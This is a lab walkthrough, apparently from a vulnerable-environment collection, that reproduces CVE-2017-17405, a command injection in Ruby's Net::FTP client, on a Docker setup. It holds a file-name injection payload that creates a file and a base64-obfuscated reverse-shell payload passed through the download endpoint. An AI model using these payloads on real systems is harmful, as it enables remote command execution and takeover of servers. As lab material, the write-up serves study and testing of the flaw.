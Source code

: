 # Ruby Net::FTP Module Command Injection Vulnerability (CVE-2017-17405)

The Ruby Net::FTP module is an FTP client that uses the `open` function when opening a local file during uploading and downloading files. In ruby, the `open` function borrows system commands to open files, and does not filter shell characters, causing arbitrary commands to be injected if the user controls the file name.

## Environment Building

Compile and run the vulnerability environment:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, you can see an HTTP service by visiting `http://your-ip:8080/`. The role of this HTTP service is that we access `http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`, which will be from example.com:2121 The ftp server downloads the file vulhub.txt to the local and returns the content to the user.

## Vulnerability recurrence

Because this is an FTP client vulnerability, we need to run a server that can be accessed first. For example using python:

```
# Install pyftpdlib
Pip install pyftpdlib

# Start an ftp server in the current directory, and listen to the `0.0.0.0:2121` port by default.
Python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

Then you can start exploiting the vulnerability. Inject the command `|touch${IFS}success.txt` (the space is replaced by `${IFS}`, the reason is not), send the following packet (the ftp server specified by uri is a simple one that I run with python) Ftp server, which does not need to place any files):

![](1.png)

Then enter the docker container, you can see that success.txt has been created:

![](2.png)

Execute the bounce shell command `|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`, successfully bounce:

![](3.png)